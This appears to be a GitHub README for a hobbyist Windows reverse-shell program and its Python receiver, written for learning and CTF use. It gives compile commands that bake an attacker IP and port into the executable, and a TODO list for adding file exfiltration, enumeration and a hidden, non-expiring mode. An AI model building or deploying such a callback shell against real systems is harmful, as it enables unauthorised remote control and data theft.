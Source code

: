 This code was created by following on from https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/. I've taken some liberties and added some stuff like:

Really crappy randomness for the beacon and a timeout after X beacons to stop the thing running if something goes wrong. Also, I haven't tested that because I wasn't patient enough. 

To compile on Kali



```bash
apt install mingw-w64-i686-dev
apt install mingw-w64
i686-w64-mingw32-g++ rev.c -o build/rev.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -DIP=\"10.10.10.10\" -DPORT=8080
```
I've moved the IP address out of the source file into the -D switch. 

Or use the makefile (you still need to install the require stuff from above.)

```bash
make ATTK_HOST=10.10.10.10 ATTK_PORT=8080
```

To compile in windows install visual studio community and hunt down cl.exe, and the .bat files to set up the env vars (google around, I can't be bothered...)

For the python reciever (which as I learn stuff may become more than a random curiosity):

```bash
 apt-get install python3-venv
 python3 -m venv env
 source env/bin/activate
 ```

 Because I like virtual envs. If there's a requirements.txt get that running with pip -r requirements.txt.

 Bear in mind that at the moment recieve.py literally does nothing except what netcat would do... I just wanted to see if I could get something to work.

 TODO
  - [ ] Find a way to make the reciever handle multiple reverse shells.
  - [ ] Update rev.exe to support various options, with a reverse shell justing being one. This includes system enumeration, moving files to the box, sending files back, command exec, etc...
  - [ ] Update the functionality in rev.c so it can be compiled to time out and display a cmd.exe window (while debugging/building so it's easy to kill), and hide/never time out when using in a test or CTF.
